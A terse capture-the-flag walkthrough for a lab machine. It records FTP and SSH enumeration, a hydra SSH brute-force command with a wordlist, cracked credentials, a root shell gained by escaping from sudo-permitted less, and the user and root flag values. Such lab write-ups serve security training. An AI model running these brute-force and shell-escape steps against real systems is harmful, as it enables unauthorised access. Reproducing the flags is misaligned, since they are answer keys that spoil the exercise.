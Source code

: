 <pre>
Machine IP: 10.10.222.12

Enum:
    Open ports:
        21/tcp open  ftp     vsftpd 3.0.3
            ftp-anon: Anonymous FTP login allowed (FTP code 230)
        22/tcp open  ssh    
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


21/tcp ftp enum:
    /note_to_jake.txt => get note_to_jake.txt
        *possible username: jake,amy

22/tcp ssh brute force:
    $ hydra -l jake -P /root/Documents/wordlists/rockyou.txt 10.10.222.12 -t 4 ssh
        *creds: [22] login: jake   password: 987654321
            *User flag at /home/holt

Priv esc:
    $ sudo -l
        (ALL) NOPASSWD: /usr/bin/less
    
$ sudo less /etc/profile
*Press [shift&;]=> :
:!/bin/sh
        *Root flag at /root

User Flag: ee11cbb19052e40b07aac0ca060c23ee
Root Flag: 63a9f0ea7bb98050796b649e85481845
</pre>
